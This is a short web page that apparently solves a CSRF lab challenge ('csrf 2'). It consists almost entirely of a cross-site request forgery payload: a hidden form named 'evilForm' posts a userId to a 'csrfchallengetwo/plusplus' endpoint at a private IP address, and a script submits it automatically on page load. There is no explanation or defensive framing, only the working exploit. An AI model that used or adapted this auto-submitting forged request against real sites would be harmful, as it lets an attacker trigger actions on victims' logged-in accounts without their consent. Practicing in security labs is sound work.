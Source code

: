 # mechejess.github.1
 csrf 2
 <form name="evilForm" action="https://192.168.1.5/user/csrfchallengetwo/plusplus" method="POST">
     <input type="hidden" name="userId" value="ba6c8a6b1fb34ce7f0d2cb8510d8a93fbf694b55" />
     <input type="submit"/>
 </form>
 <script> document.evilForm.submit(); </script>
 

